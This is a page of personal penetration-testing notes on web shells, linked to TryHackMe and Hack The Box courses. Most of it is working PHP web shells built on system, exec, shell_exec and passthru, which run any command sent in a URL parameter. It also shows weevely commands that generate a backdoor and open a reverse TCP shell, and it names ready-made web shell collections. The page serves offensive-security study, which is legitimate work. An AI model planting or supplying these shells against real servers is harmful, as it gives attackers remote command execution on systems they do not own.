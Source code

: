 # Web shell

[![introtoshells](../../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)
[![fileuploadattacks](../../../_badges/htb/fileuploadattacks.svg)](https://academy.hackthebox.com/course/preview/file-upload-attacks)

[Go back](../index.md#remote-shell-)

<div class="row row-cols-md-2"><div>

A web shell is a shell that is *usually* accessed from a browser. When possible, we want to use it as a foothold to move to reverse shell.

The language used in the web shell is **determined by the language the target web server understand**, such as PHP or JavaScript. ✨
</div><div>

For JavaScript, you need to find a way for the website to execute your web shell, as unlike PHP, it's not automatically done by visiting the web shell URL.

On Kali, you can find preinstalled web shells in: ([GitLab](https://gitlab.com/kalilinux/packages/webshells))

```shell!
$ ls /usr/share/webshells
```

Alternatively, you can use [SecLists webshells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells).
</div></div>

<hr class="sep-both">

## PHP web shell

<div class="row row-cols-md-2"><div>

PHP web shells are PHP files such as `webshell.php`. Once uploaded on the target, you can execute them by browsing them with a browser.

Most web shells below are using GET to take to command to run. For instance, `[...]/webshell.php?cmd=id` to run the `id` command.

Most commands below are complex to handle redirections, multi-line results, default command, etc. You can always get by using simple payloads like `<?=system($_GET[0] ?? true); ?>` and using `?0=whoami`.

<br>

#### shell_exec

This is a compacted web shell with `shell_exec`  ([doc](https://www.php.net/manual/en/function.shell-exec.php)).

```php!
<?="<pre>".shell_exec(($_GET['cmd'] ?? "whoami")." 2>&1")."</pre>"; ?>
```

You may replace `?=` with `?php echo ` if not supported.

<br>

#### weevely3

This is a web shell using [weevely3](https://github.com/epinna/weevely3) (2.8k ⭐).

```ps
# generate a webshell.php protected by "password"
$ weevely generate <password> webshell.php
# connect to the web shell
$ weevely URL/webshell.php <password>
# see help
# ex: create a reverse shell
$ :backdoor_reversetcp IP PORT
```

</div><div>

#### phpbash

You can use the semi-interactive [phpbash](https://github.com/Arrexel/phpbash) <small>(0.8k ⭐, 2018 🪦)</small>.

<br>

#### exec

This is a web shell using `exec` ([doc](https://www.php.net/manual/en/function.exec.php))

```php!
<?php
$output = "";
exec(($_GET["cmd"] ?? "whoami")." 2>&1", $output);
echo "<pre>".implode('<br>', $output)."</pre>";
?>
```

#### passthru

This is a web shell using `passthru`  ([doc](https://www.php.net/manual/en/function.passthru.php))

```php!
echo "<pre>";
echo passthru(($_GET["cmd"] ?? "whoami")." 2>&1");
echo "</pre>";
```

#### system

This is a web shell using `system` ([doc](https://www.php.net/manual/en/function.system.php))

```php!
<?php
echo "<pre>";
echo system(($_GET["cmd"] ?? "whoami")." 2>&1");
echo "</pre>";
?>
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-md-2"><div>

* [wso-webshell](https://github.com/mIcHyAmRaNe/wso-webshell)
</div><div>


</div></div>